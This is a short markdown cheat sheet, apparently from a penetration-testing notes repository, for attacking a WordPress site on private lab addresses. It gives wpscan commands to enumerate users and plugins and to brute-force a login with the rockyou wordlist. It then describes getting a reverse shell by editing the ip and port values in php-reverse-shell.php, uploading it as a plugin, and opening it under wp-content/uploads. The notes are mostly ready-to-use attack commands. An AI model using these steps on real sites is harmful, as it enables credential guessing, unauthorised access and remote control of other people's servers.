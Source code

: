 Wordpress commands
==================

**Enumerating users**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u

**Bruteforce wp login page**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

**Enumerating wordpress users and plugins**

wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


Reverse shell exploits
======================

**Exploit Method 1**

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.
Download and Edit the following file content

$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location

https://192.168.1.30:12380/blogblog/wp-content/uploads/


